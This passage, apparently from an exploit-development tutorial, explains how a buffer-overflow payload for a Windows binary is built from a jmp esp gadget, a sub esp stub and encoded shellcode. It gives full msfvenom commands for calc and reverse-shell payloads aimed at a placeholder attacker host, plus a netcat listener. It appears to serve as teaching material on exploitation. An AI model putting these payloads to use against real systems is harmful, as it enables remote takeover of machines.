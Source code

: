 The third addition to buf is the address of one of the jmp esp gadgets located inside of the binary. This will be executed once the program hits a RET instruction. This is especially important because the value inside of esp is where the shellcode will be located on the stack.

The next two additions (sub_esp_10 and shellcode_shell) are both shellcode. The purpose of sub_esp_10 is to perform the assembly instructions `sub esp, 0x10`. This subtracts 16 from the value stored in ESP, moving it that many bytes away from the shellcode. This is done instead of using a NOP sled, which uses many many more bytes inside of the payload and is also a lot more buggy. The reason this is done is because the shellcode to spawn the shell is encoded due to having to avoid bad characters. That means a decoder stub must be prepended to the shellcode itself. The issue here is that the stub can blow a massive hole in the memory stored around the esp, which is of course an issue due to our shellcode being stored there which is why the esp is being moved 16 bytes away. shellcode_shell just contains the shellcode generated through msfvenom using the command below with a windows/shell_reverse_tcp payload.

The trailing padding of "D"'s and the "\n" byte is to both ensure that my input to the binary is of a specific length, and to ensure that the string is read from input properly. Simple stuff...

**Generate the** `sub esp,10` **instruction**
```bash
msf-metasm_shell

type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file
metasm > sub esp,0x10
"\x83\xec\x10"
metasm > quit
```

**pop calc**
```bash
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

**reverse shell**
```bash
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="IPHERE" LPORT=4444 EXITFUNC=thread
```

## Getting Reverse Shell

Once you have your exploit code written it is simple enough to get a remote shell back to you. I would highly recommend just trying to pop calc before hand, this is because catching a reverse shell is another level of things to go wrong with the exploit and it's much better to troubleshoot whether your shellcode is working or not by using a simple shellcode command beforehand to make sure it's being executed correctly in the first place...

You can simply use netcat to listen for a reverse shell connection, or you can use metasploits multi handler, snippets for both are below. Once you have the listener set up using either method, simply run your exploit script and you *should* have a shell!

**Using netcat**
```bash
nc -lvnp 4444
```
